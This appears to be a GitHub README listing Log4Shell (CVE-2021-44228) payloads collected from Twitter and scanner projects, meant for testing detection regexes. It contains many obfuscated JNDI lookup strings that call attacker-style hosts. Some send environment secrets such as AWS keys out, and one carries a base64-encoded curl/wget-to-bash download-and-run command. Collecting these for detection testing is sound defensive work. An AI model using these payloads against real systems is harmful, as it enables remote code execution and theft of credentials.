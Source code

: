 # Payload samples

This is a list of [log4shell](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) payloads seen on my twitter feeds.

The goal is to allows testing detection regexes defined in protection systems.

## Sources & credits

* https://twitter.com/h4x0r_dz/status/1469663187079417857/photo/1
* https://twitter.com/ymzkei5/status/1469765165348704256
* https://twitter.com/sirifu4k1/status/1469524530255511552
* https://twitter.com/BountyOverflow/status/1470001858873802754
* https://twitter.com/entropyqueen_/status/1469961345848299520
* https://twitter.com/anthrax0/status/1470276303773663233
* https://twitter.com/log4j2rce/status/1469799982630944770
* https://twitter.com/11xuxx/status/1471236310299906050
* https://twitter.com/11xuxx/status/1471826191724257285
* https://github.com/projectdiscovery/nuclei-templates/pull/3334/files
* https://github.com/PortSwigger/log4shell-scanner/blob/master/src/main/kotlin/burp/BurpExtender.kt#L70
* https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words/blob/main/src/main/java/log4j.java
* https://github.com/tangxiaofeng7/BurpLog4j2Scan/blob/master/src/main/java/burp/BurpExtender.java#L84
* https://github.com/fullhunt/log4j-scan/blob/master/log4j-scan.py#L52
* https://github.com/takito1812/log4j-detect/blob/main/log4j-detect.py#L9
* https://docs.google.com/document/d/15V4EmDcOl4Mog5-If-Mv3-ZoRcf9-RsGSWlqYte3zho/edit
* https://www.cyberkendra.com/2021/12/log4shell-advisory-resource-cheat-sheet.html
* https://blog.talosintelligence.com/2021/12/apache-log4j-rce-vulnerability.html

## Value collections

* https://github.com/Neo23x0/log4shell-detector/tree/main/tests/test-cases
* https://github.com/whwlsfb/Log4j2Scan/tree/master/src/main/java/burp/poc/impl

## Values gathered

> When a source was not an image then values provided were added to the list below.

💡 Note that `:/` instead of `://` is effective too.

```text
${j${k8s:k5:-ND}i${sd:k5:-:}ldap://mydogsbutt.com:1389/o}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://1234.${hostName}.com}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attacker_controled_website/payload_to_be_executed}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://127.0.0.1:1389/ass}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://attacker_controled_website/payload_to_be_executed}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://{{callback_host}}/{{random}}},
${${::-j}nd${::-i}:
${${::-j}ndi:
${${::-j}ndi:dns://${env:USERNAME}.c6roi3ia89k5kj1mes60cg5a1doyyyyyn.interactsh.com}
${${::-j}ndi:rmi://127.0.0.1:1389/ass}
${${::-j}ndi:rmi://{{callback_host}}/{{random}}},
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}attacker_controled_website/payload_to_be_executed}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a}
${${env:TEST:-j}ndi${env:TEST:-:}${env:TEST:-l}dap${env:TEST:-:}attacker_controled_website/payload_to_be_executed}
${${lower:${lower:jndi}}:${lower:rmi}://a.s.d/poc}
${${lower:${lower:jndi}}:${lower:rmi}://{{callback_host/{{random}}},
${${lower:jndi}:${lower:rmi}://dslepf.dnslog.cn/tem}
${${lower:jndi}:${lower:rmi}://q.w.e/poc}
${${lower:jndi}:${lower:rmi}://{{callback_Host}}/{{random}}},
${${lower:jnd}${lower:${upper:ı}}:ldap://...}
${${lower:j}${lower:n}${lower:d}i:${lower:ldap}://xxx
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://{{callback_host}}/{{random}}},
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://dslepf.dnslog.cn/tem}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://{{callback_host}}/{{random}}},
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attacker_controled_website/payload_to_be_executed}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}
${${upper:j}ndi:${upper:l}${upper:d}a${upper:p}://somesitehackerofhell.com/z}
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.{{interactsh-url}}}
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://1234.${hostName}.com}
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://attacker_controled_website/payload_to_be_executed }
${jndi:${lower:l}${lower:d}a${lower:p}://attacker_controled_website/payload_to_be_executed}
${jndi:${lower:l}${lower:d}a${lower:p}://example.com/
${jndi:${lower:l}${lower:d}ap://attacker_controled_website/payload_to_be_executed}
${jndi:dns://${env:COMPUTERNAME}.uedo81.dnslog.cn/a}
${jndi:dns://${env:USERDOMAIN}.qnfw43.dnslog.cn/a}
${jndi:dns://${hostName}.uedo81.dnslog.cn/a}
${jndi:dns://aeutbj.example.com/ext}
${jndi:dns://{{callback_host}}}
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.badserver.com} 
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
${jndi:ldap://${env:USER}.attacker.server/}
${jndi:ldap://${env:user}.uedo81.dnslog.cn/exp}
${jndi:ldap://${hostName}.domain/a}
${jndi:ldap://${sys:java.vendor}.domain/a}
${jndi:ldap://${sys:java.version}.domain/a}
${jndi:ldap://45.155.205[.]233[:]12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC9bdmljdGltIElQXTpbdmljdGltIHBvcnRdfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0L1t2aWN0aW0gSVBdOlt2aWN0aW0gcG9ydF0pfGJhc2gK}
${jndi:ldap://dslepf.dnslog.cn/exp}
${jndi:ldap://somesitehackerofhell.com/z}
${jndi:rmi://a.b.c}
${jndi:rmi://{{callback_host}}},
j${::-nD}i${::-:}
j${EnV:K5:-nD}i:
j${k8s:k5:-ND}i${sd:k5:-:}
j${loWer:Nd}i${uPper::}
j${main:\k5:-Nd}i${spring:k5:-:}
j${sys:k5:-nD}${lower:i${web:k5:-:}}
jn${date:}di${date:':'}
jn${env::-}di:
${jnd${123%25ff:-${123%25ff:-i:}}ldap://mydogsbutt.com:1389/o}
127.0.0.1/${jndi:ldap://3y2i0ndknzu3ggcfrukjvhviy945su.burpcollaborator.net/${java:version}}
```
